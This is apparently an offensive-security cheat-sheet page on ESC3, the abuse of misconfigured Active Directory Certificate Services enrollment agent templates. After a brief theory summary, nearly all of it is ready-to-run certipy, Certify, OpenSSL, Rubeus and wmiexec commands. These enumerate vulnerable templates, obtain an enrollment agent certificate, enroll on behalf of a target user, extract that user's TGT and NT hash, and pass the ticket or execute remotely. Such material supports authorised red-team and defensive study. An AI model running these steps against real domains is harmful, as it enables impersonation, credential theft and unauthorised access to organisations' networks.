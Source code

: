 # ESC3—Misconfigured Enrollment Agent Templates

## Theory


> [!summary] Overview
> Templates that issue **Certificate Request Agent** EKU (`1.3.6.1.4.1.311.20.2.1`) to low-privileged users allow them to obtain an **enrollment agent** cert. That cert can then co-sign a CSR to enroll **on behalf of** another user in a second template that permits EoB (enroll-on-behalf-of) and has an authentication EKU (e.g., Client Authentication). Result: a valid cert for the target user, enabling PKINIT to get a TGT and NTLM.

Placeholders: `<FOREST_DN>` `<CA_FQDN>` `<CA_NAME>` `<EA_TEMPLATE>` `<AUTH_TEMPLATE>` `<DOMAIN>` `<ALT_SAM>`

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for templates with EKU: Certificate Request Agent and low-priv Enroll
# Also identify a second template (e.g., 'User') with Client Authentication EKU that allows EoB
```

### Step 1—Get Enrollment Agent Certificate (Condition 1)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<EA_TEMPLATE>' \
  -out '<EA_BASENAME>'            # writes <EA_BASENAME>.pfx
```

### Step 2—Enroll on behalf of Target (Condition 2)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<AUTH_TEMPLATE>' \
  -on-behalf-of '<DOMAIN>\<ALT_SAM>' -pfx '<EA_BASENAME>.pfx' \
  -out '<ALT_BASENAME>'           # writes <ALT_BASENAME>.pfx (target’s cert)
```

### Step 3—Authenticate as Target

```bash
certipy auth -pfx '<ALT_BASENAME>.pfx' -username '<ALT_SAM>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# => produces <ALT_SAM>.ccache and may return NT hash
```

### Optional—Use TGT

```bash
KRB5CCNAME=<ALT_SAM>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

Placeholders: `<DOMAIN>` `<USER>` `<PASS>` `<DC_IP>` `<CA_NAME>` `<EA_TEMPLATE>` `<AUTH_TEMPLATE>` `<ALT_SAM>` `<EA_BASENAME>` `<ALT_BASENAME>` `<TARGET_HOST_FQDN>`

---

## Windows

### Enumerate

```powershell
.\Certify.exe find /vulnerable
# Identify: (1) template with Certificate Request Agent EKU and low-priv Enroll
#           (2) template with Client Authentication EKU that supports EoB
```

Optional LDAP:

```powershell
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)
  (|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.1)(mspki-certificate-application-policy=1.3.6.1.4.1.311.20.2.1)))' `
-SearchBase "CN=Configuration,<FOREST_DN>"
```

### Step 1—Get Enrollment Agent Certificate

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<EA_TEMPLATE> > ea.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in ea.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out ea.pfx
```

### Step 2—Enroll on behalf of Target

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<AUTH_TEMPLATE> `
  /onbehalfof:<DOMAIN>\<ALT_SAM> /enrollcert:ea.pfx > target.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in target.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out target.pfx
```

### Step 3—Authenticate as Target

```powershell
.\Rubeus.exe asktgt /user:<DOMAIN>\<ALT_SAM> /certificate:target.pfx /getcredentials /nowrap
# => Base64 TGT and possibly NTLM
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```


